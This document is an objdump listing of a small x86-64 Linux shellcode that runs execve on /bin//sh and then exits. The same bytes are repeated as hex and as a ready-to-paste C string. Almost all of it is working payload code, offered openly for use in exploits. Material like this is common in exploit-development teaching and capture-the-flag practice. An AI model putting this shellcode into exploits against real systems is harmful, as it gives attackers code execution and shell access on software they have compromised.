 # objdump of the text section

shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:	6a 3b                	push   $0x3b
  401002:	58                   	pop    %rax
  401003:	48 31 d2             	xor    %rdx,%rdx
  401006:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx
  40100d:	2f 73 68 
  401010:	48 c1 eb 08          	shr    $0x8,%rbx
  401014:	53                   	push   %rbx
  401015:	54                   	push   %rsp
  401016:	5f                   	pop    %rdi
  401017:	52                   	push   %rdx
  401018:	57                   	push   %rdi
  401019:	54                   	push   %rsp
  40101a:	5e                   	pop    %rsi
  40101b:	0f 05                	syscall 
  40101d:	6a 3c                	push   $0x3c
  40101f:	58                   	pop    %rax
  401020:	48 31 ff             	xor    %rdi,%rdi
  401023:	0f 05                	syscall 

# ShellCode in hexa

6a 3b 58 48 31 d2 48 bb
2f 2f 62 69 6e 2f 73 68
48 c1 eb 08 53 54 5f 52
57 54 5e 0f 05 6a 3c 58
48 31 ff 0f 05 

# Easy copy/paste to use in C language 

"\x6A\x3B\x58\x48\x31\xD2\x48"
"\xBB\x2F\x2F\x62\x69\x6E\x2F"
"\x73\x68\x48\xC1\xEB\x08\x53"
"\x54\x5F\x52\x57\x54\x5E\x0F"
"\x05\x6A\x3C\x58\x48\x31\xFF\x0F\x05"
